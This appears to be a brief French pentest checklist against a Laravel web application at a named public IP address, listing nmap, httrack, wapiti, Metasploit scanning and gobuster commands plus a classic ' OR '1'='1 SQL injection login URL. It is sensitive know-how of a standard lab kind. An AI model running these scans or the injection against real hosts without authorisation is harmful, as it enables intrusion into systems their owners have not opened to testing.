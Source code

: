 # Cybersecurity


## LARAVEL 

Port => http://45.86.36.184/public

1. Scan réseau avec Nmap
nmap -sS -sV -O -p- 45.86.36.184

2.	Analyse web avec Httrack
httrack http://45.86.36.184/public/ -O ~/httrack_clones



3. Wapiti 
Report de vulnerabilité
wapiti -u http://45.86.36.194/public/

4. Scan de vulnérability
Metasploit
- Scanner les en-têtes HTTP 
- Scanner les répertoires disponibles 
- Scanner les titres de pages 


5. Injection sql
http://45.86.36.184/public/login?user=1' OR '1'='1



6. Brute Force
gobuster dir -u http://45.86.36.184/public/ -w /usr/share/wordlists/dirb/common.txt                                                 


